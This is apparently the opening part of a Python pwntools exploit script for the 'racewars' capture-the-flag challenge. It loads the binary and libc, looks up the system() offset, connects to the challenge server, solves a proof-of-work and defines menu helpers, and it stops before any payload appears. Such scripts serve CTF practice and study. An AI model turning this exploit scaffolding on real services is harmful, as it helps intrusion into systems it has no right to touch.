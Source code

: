 ```python=
import time
import random
host = '2f76febe.quals2018.oooverflow.io'
port = 31337

binary = "./racewars"
context.binary = binary
elf = ELF(binary)
try:
  libc = ELF("./libc.so.6")
  log.success("libc load success")
  system_off = libc.symbols.system
  log.success("system_off = "+hex(system_off))
except:
  log.failure("libc not found !")

def new():
  pass

def edit():
  pass

def remove():
  pass

def show(start,end):
  pass
  r.recvuntil(start)
  data = r.recvuntil(end)[:-len(end)]
  return data

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})
  #r = remote("127.0.0.1" ,4444)

else:
  r = remote(host ,port)
  r.recvuntil("Challenge: ")
  Challenge = r.recvuntil("\n")[:-1]
  r.recvuntil("n:")
  n = r.recvuntil("\n")[:-1]
  r.recvuntil("Solution:")
  p = process(["/usr/bin/python", "./pow.py",Challenge ,n ])
  print "pow..."
  p.recvuntil("Solution: ")
  ans = p.recvuntil(" ")[:-1]
  r.sendline(ans)

def tires(num):
  r.recvuntil("E: ")
  r.sendline("1")
  r.recvuntil("?\n")
  r.sendline(str(num))

def chassis(option):
  r.recvuntil("E: ")
  r.sendline("2")
  r.recvuntil("pse\n")
  r.sendline(str(option))

def engine():
  r.recvuntil("E: ")
  r.sendline("3")
```